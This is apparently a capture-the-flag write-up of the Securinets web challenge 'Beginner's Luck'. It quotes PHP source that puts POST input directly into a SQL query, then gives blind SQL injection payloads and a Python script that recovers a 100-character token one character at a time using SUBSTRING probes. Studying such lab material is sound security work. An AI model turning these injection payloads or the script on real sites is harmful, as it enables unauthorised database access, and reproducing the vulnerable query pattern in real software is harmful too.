 # Beginner's Luck

Web, 989 points.

## Description

*Can you help me to win the flag ? I bet you can't ..*

We were given a website along with its sourcecode (PHP).

## Solution

The site greets us with a page in which we can click on a "Generate" button. Everytime we click on it, a random token is generated, and the
site says "Better luck next time!". We are given 10 attempts ; after those, the site says "Max Attempts Reached" and our session is reset.

![](luck1.png)

Taking a look at the source, here is what we can read.

```HTML
<form id="form" method="POST" action="" >
	
<input name="val" type="hidden" id="val">

</form>
<script type="text/javascript">

function generate_random_string(string_length){
    let random_string = '';
    let random_ascii;
    for(let i = 0; i < string_length; i++) {
        random_ascii = Math.floor((Math.random() * 25) + 97);
        random_string += String.fromCharCode(random_ascii)
    }
    return random_string
}

function generate()
{
    const input=document.getElementById("val");
    input.value=generate_random_string(100);
    document.getElementById("form").submit();
}
</script>
<div class="buttonHolder">
<input type="button" name="b1" value="Generate" onclick="generate()">
</div>
```

Every time we click on the button, our client generates the random 100-character token, and then sends it via POST. Our goal is to find the correct token.

Let's take a look at the source files we are given : [index.php](index.php), [play.php](play.php) and [reset.php](reset.php).

When we first connect to [index.php](index.php), our session is initialized and a random 100-character token is created for our session. We are not given the details of the generator function, though, but since they make our client generate random tokens on lowercase letters, we can infer the session token is the same. Right?

```php
if (!isset($_SESSION['count']))
{
	$_SESSION['count'] = 0;
	$pass = generateRandomToken(100);
	$ip = $_SERVER['REMOTE_ADDR'];
	$sql = "INSERT INTO users (ip, token) VALUES (?,?)";
	$stmt = $pdo->prepare($sql);
	$stmt->execute([$ip, $pass]);
}
```

A table `users` stores (ip, token) couples. Then in [play.php](play.php), when we send a token via POST :

```PHP
if (isset($_POST["val"]))
	{
	if ($_SESSION['count'] >= $max_count)
		{
		header("Location:reset.php");
		die();
		}

	$_SESSION['count']++;
	try
		{
		$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
		$result = $conn->query($sql);
		if ($result)
			{
			$row = $result->fetch_assoc();
			}
		  else
			{
			$row = false;
			}
		}

	catch(PDOException $e)
		{

		// echo $e;

		}

	if ($row)
		{
		echo "<h1>True</h1>";
		echo "<div><h4>Click <a href='flag.php'>here</a> and use the token to get your flag</h4></div>";
		}
	  else
		{
		echo "<h4>Better luck next time !</h4>";
		}

	$currentValue = $_POST['val'];
	}
```

An SQL query checks if there exists an entry for our (ip, token). If there is, we are invited to input our token in a page called flag.php (which is not present in the sources), so that we can claim our flag.

The following line is prone to a very obvious SQL injection.

```PHP
$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
```

We don't know the exact output of the SQL request, so we cannot run a "UNION" type of SQL injection, but we do know whether it returns something or not.
Indeed, when there exists such a couple (ip, token), the database returns at least a row and the site displays "True", "Click here and use the token to get your flag".
Otherwise, it displays "Better luck next time". We can use this information to run a blind SQL injection.

Let's check by sending a pretty basic injection first in `$_POST['val']` :

```
' OR '1'='1
```

The site returns "True". It worked! Let's keep in mind that AND has a higher precedence than OR and try to run another injection :

```
' OR (ip='our ip' AND length(token)=100) AND '1'='1
```

It works too: the token is 100 characters long. Good. Now we're able to write a small script that will brute-force each character individually thanks to the SUBSTRING function of MySQL.

There's an issue, though. Our session is reset and destroyed after 10 requests. We can't find a 100-character token with only 10 binary requests...

Our solution was to use two different IPs with a teammate. One person would be running the injection, but looking for the token associated to the other person's IP. Making sure that other person kept their session alive, they could then submit the token without increasing the number of attempts at all.

Our payload looks like this :

```
' OR (ip='teammate IP' AND substring(token,[i],1)='[c]') AND '1'='1
```

Where i is between 1 and 100, and c in the lowercase letters charset. Except it was not the case. We ran the injection once and found many characters in the token that were actually not letters.
We then ran the injection again with lowercase letters + digits, and it worked. Those bastards had fooled us with that javascript generator! :D

Here is the exploit in Python.

```python
import requests

url = "https://web4.ctfsecurinets.com/play.php"

injection = "' OR (ip='teammate IP' AND substring(token,%s,1)='%s') AND '1'='1"
token = ''

for i in range(1, 101):
  for b in 'abcdefghijklmnopqrstuvwxyz':
    # Resetting the session and requesting a new one, just in case.
    # The exploit would have been faster by removing this.
    requests.get(url.replace('play', 'reset'))
    s = requests.session()
    s.get(url.replace('play', 'index'))
    c = s.post(url, data={'val': injection % (i, b)}).content
    if b'>True<' in c:
      token += b
      print(i, token)
      break
```

And we get our friend's token, for instance, `qx9tiuvxniog4qfkulftatkvysgiosw4qwppqcevks1f98hujnejxp6w8dvnvsjdfytw0xicha9h9g1it7simo4lrryea99gys2q`.

Input it in flag.php and get the flag. Enjoy!

Note: the exploit could have been much faster if we tested bits in the token instead of looping through a charset. Since there are 36 characters, which is approximately 5 bits, we could have been able to retrieve a character using only 5 requests instead of 36 worst case scenario. The payload would have been more complicated though, running some conversions and stuff.

